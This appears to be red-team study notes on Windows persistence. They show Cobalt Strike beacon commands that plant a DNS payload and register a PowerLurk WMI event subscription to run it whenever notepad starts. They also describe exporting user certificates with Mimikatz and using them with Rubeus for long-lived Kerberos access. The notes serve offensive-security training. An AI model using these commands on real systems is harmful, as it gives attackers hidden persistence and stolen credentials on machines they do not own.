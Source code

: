 [PowerLurk](https://github.com/Sw4mpf0x/PowerLurk) is a PowerShell tool for building these WMI events.  In this example, I will upload a DNS payload into the Windows directory, import PowerLurk.ps1 and create a new WMI event subscription that will execute it whenever notepad is started.

```
beacon> cd C:\Windows
beacon> upload C:\Payloads\dns_x64.exe
beacon> powershell-import C:\Tools\PowerLurk.ps1
beacon> powershell Register-MaliciousWmiEvent -EventName WmiBackdoor -PermanentCommand "C:\Windows\dns_x64.exe" -Trigger ProcessStart -ProcessName notepad.exe
```

View these classes afterwards:
``` powershell
Get-WmiEvent -Name WmiBackdoor
```

The _CommandLineTemplate_ for the EventConsumer will simply be `C:\Windows\dns_x64.exe`; and query for the EventFilter will be `SELECT * FROM Win32_ProcessStartTrace WHERE ProcessName='notepad.exe'`.

The backdoor can be removed with:
``` powershell
Get-WmiEvent -Name WmiBackdoor | Remove-WmiObject
```


## ADCS Certificate Persistence

---

Certificates can also be useful for maintaining persistent access to both users and computers, because they tend to have a longer shelf-life compared to passwords.  For example, User certificates are valid for an entire year by default, regardless of password changes.

[[Certify#find]]

### User Persistence

If we have a Beacon running on their machine, we can enumerate their certificates with Seatbelt.

[[Seatbelt#Certificates]]

Always ensure the certificate is used for client authentication.

Certificates can be exported with Mimikatz using `crypto::certificates` (although it drops them to disk).

[[mimikatz#certificates#User Certificates]]

Go to _View > Downloads_ to sync files from Cobalt Strike to your local machine.

Base64 encode the pfx file.

```
cat /mnt/c/Users/Attacker/Desktop/CURRENT_USER_My_0_Nina\ Lamb.pfx | base64 -w 0
```

Then use it with Rubeus to obtain a TGT.  The export password will be `mimikatz`.

[[Rubeus#asktgt#Request Using Certificate]]
